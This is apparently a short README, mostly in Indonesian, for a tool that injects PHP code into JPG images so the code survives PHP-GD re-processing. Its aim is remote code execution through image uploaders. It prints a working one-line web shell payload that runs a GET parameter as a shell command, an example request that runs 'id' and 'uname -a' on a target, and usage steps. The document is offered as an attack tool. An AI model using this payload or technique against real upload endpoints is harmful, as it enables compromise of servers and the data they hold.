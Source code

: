 # Bypass PHP-GD RCE
#### Bypassing image uploader use PHP-GD
#### Bypassing Via Injecting RCE Code In Image 

## Ubah gd.php dan ganti Payload/Kode yang ingin di inject ke gambar di LINE 8

```
$miniPayload = 'taruh payloadmu disini';
```
#### contoh payload yang dipake :

```
$miniPayload = '<?=`$_GET[0]`?>';
as
vuln.com/rce.jpg.php?0=id;uname -a
```
## How ?
```
php gd.php sample.jpg
```
#### jika sukses, maka ada file baru bernama payload_sample.jpg

# JPG ONLY !!!
